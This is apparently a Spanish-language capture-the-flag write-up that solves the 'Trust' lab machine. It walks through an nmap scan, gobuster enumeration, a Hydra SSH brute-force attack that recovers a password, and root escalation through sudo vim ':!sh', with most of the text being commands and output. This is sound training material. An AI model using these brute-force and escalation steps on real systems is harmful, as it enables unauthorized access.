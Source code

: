 # Maquina-Trust 
## Resolviendo maquina-Trust de "El Pingüino de Mario" 

> Paso N°:1 Scaneo con nmap. (Fase de reconocimiento)

```bash
nmap -A 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 09:40 -03
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
| 256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3
(ECDSA)
|_ 256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b
(ED25519)
80/tcp open http Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.49 seconds
```
![scaneo1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/839fd0e6-ddae-4b03-ad92-ea861a58cfa6)

## Paso N°2: Buscamos alguna pista en la web.
### _Ya que podemos ver en el scaneo de nmap que el puerto "80/tcp open http Apache httpd 2.4.57 ((Debian))" esta abierto, asi que ponemos "http://172.17.0.2" en el navegador para ver que muestra:_

![scaneo2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4e677bca-cea9-4c82-8f11-cc9d40e33d8a)
### _Al ver solo la pagina de configuracion de Apache procedemos a un scaneo con Gobuster para ver si encontramos algo más importante._

## Paso N°3: Enumeracion usando gobuster.
### _Usamos el comando "gobuster dir -u" para enumerar todos los directorios en el servidor web y "-x php,txt,py,bak,php.bak" para las extensiones de archivo que Gobuster debe añadir a las palabras en la wordlist durante la búsqueda._

```bash
gobuster dir -u "http://172.17.0.2" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```
![scaneo3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/8ebee023-93c2-44f5-9310-f141b58d1928)



## Paso N°4: Revisar y utilizar lo encontrado.

### _En éste caso vemos un "/secret.php" el cual vamos a usar poniendolo en la web como "http://172.17.0.2/secret.php" ,en la salida nos encontramos con un mensaje que dice:_ 
> mario, ésta web no es vulnerable.

![scaneo4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/098a01f7-2121-470d-9fe4-b0ab13a4b91b)


### _Asi que como nos da un nombre (Mario) podemos usarlo de prueba para ver si podemos obtener acceso por medio del ssh, pero como no tenemos la contraseña vamos a usar un "ataque de fuerza bruta", en éste caso con hydra_

## Paso N°5: Ataque de Fuerza Bruta con Hydra.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-17 10:22:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-17 10:22:52
```
![scaneo5](https://github.com/EzeTauil/maquina-Trust/assets/118028611/72496ff2-a25a-4391-b968-884e9088714b)

## Paso N°6: Explotacion-Acceso por ssh.
### Con el ataque de Hydra encontramos la contraseña para el usuario mario la cual es "chocolate", asi que ahora nos conectamos a traves de ssh de la siguiente manera:

```bash
ssh mario@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux 10340d532be9 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```
![acceso1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/48290ae0-a9fb-40d7-8869-f3bb7bab4586)


## Paso N°7: Escalando Privilegios.

```bash
mario@10340d532be9:~$ whoami
mario
```
![acceso2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4050709c-8b2c-44e3-9aa3-56f4a0a00c73)


### _Procedemos a verificar que comandos podemos ejecutar como usuario root, lo hacemos con el comando (sudo -l)_

```bash
mario@10340d532be9:~$ sudo -l  
[sudo] password for mario: 
Matching Defaults entries for mario on 10340d532be9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 10340d532be9:
    (ALL) /usr/bin/vim
```
![acceso3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/878ea32a-5cf4-4c02-8436-52109abf2a36)

### _Aca vemos que podemos usar "vim" como usuario root, asi que podemos explotar ésto para obtener una shell con privilegios de root, lo hacemos de la siguiente manera: (sudo vim) una vez adentro precionamos "Esc" y despues ":" y escribimos "!sh" de manera que el comando final quedaria asi ":!sh" y precionamos "Enter" ésto nos abre la shell como usuario root, lo comprobamos usando el comando "whoami" , si nos devuelve "root" es que lo logramos._

![acceso4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/c13dd59c-84a2-4b3b-a0a2-4ed5b75bdc4e)

## Obteniendo Shell con acceso root:

![accesoroot](https://github.com/EzeTauil/maquina-Trust/assets/118028611/5afc3cb7-1047-4137-8a17-def53769b98d)






